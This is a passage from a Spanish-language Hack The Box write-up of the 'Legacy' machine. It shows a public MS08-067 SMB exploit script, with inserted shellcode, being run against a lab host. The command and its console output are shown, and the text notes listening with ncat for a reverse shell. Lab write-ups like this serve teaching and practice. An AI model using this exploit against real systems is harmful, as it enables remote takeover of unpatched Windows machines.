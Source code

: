Ese shellcode generado, ahora vamos a introducirlo en el `exploit`. 

![](/assets/images/HTB/htb-writeup-Legacy/lega3.PNG)


Ejecutamos el exploit sin antes ponernos en escucha con `ncat` en el puerto `443`.

```bash
❯ python2 ms08_067_2018.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```
